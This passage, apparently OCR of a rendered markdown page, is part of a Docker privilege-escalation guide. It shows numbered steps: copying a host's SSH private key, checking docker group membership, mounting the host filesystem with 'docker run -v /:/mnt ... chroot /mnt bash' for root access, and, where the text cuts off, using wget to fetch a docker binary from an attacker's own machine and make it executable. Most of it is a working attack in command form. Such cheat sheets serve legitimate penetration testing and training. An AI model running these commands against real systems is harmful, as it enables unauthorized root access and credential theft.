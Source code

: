   If you find something like `/hostsystem/root/.ssh/id_rsa`, you can access the **host** via SSH if you copy the private key.

  ---

  ### 3. Check if you are in the `docker` group (outside container)

  ```bash
  id
  ```

  If it returns something like:

  ```bash
  uid=1000(user) gid=1000(user) groups=1000(user),116(docker)
  ```

  ---

  ### 4. Check if Docker is installed and accessible

  ```bash
  which docker
  docker ps
  ```

  ---

  ### 5. If **docker.sock** is accessible, use it to escalate

  #### 5.1 Check the socket

  ```bash
  ls -l /var/run/docker.sock
  ```

  ### 5.2 Create container with host root

  ```bash
  docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
  ```

  Now you have access to the **host root** inside the container.

  ---

  ### 6. If inside a container and **docker.sock** is available

  #### 6.1 Download the Docker binary if it doesn't exist

  ```bash
  wget https://<YOUR-MACHINE-IP>:443/docker -O docker
  chmod +x docker
  ```
